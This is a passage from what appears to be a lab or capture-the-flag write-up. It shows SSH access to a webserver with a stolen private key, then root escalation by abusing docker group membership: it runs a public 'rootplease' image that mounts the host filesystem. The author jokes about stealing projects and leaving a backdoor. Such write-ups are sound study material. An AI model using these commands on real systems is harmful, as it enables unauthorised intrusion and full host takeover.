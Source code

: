 Yay! I'll be able to get a real shell!

### It's over...

```bash
host $ chmod 600 odie_priv.key 
host $ ssh -i odie_priv.key odie@192.168.122.147
odie@webserver $ id
uid=1000(odie) gid=1000(odie) groupes=1000(odie),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
```

Yeeeeeeeees! Here I am with the identity of __Odie__ on his system, I will be able to steal all ENSIBS projects! I could stop the attack here...


![](https://media.giphy.com/media/YTbZzCkRQCEJa/giphy.gif)


... Or not. In case of real red team operation, you can't surrender before being __root__ and remove all traces left behind. And when you're __root__ you're able to give a little present: a backdoor :D

Here, I executed the `id` command to make sure of my rights. I saw something really nice: the __odie__ user is in the `docker` group. Odie probably made this because he is too lazy to do `sudo` before doing some docker stuff. But because of this, I'm able to get __root__ access.

Indeed, `docker` daemon is going to access to the __root__ user, but also to all users in `docker` group. In this way, it's possible to get a __root__ shell.

```bash
odie@webserver $ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
hello-world         latest              4ab4c602aa5e        3 months ago        1.84kB

odie@webserver $ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Downloading [==========================================>        ]  56.22de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
root@webserver # id
uid=0(root) gid=0(root) groups=0(root)
```


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_17.gif)

